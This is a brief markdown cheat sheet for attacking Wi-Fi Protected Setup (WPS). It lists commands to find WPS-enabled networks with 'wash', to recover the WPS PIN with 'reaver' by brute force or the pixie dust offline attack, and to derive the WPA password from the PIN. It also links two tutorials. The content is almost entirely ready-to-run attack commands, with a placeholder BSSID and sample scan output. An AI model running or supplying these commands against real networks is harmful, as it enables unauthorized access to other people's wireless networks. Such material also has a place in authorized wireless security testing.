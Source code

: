 
### Check for networks with wps available
wash -i wlan0mon

```text
BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------
AA:BB:CC:XX:YY:ZZ    1  -88  2.0  No   Broadcom  linksys
```

### Attacks to retrieve the pin

#standard attack
sudo reaver  -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv

#pixie dust offline attack - (-K 1)
sudo reaver -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv -K 1


### Resolve password from pin

sudo reaver -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv -p 12345678




https://kalitut.com/wifi-attack-with-wps-using-reaver/
https://axcheron.github.io/hacking-wps-using-reaver-and-pixie-dust-attack/
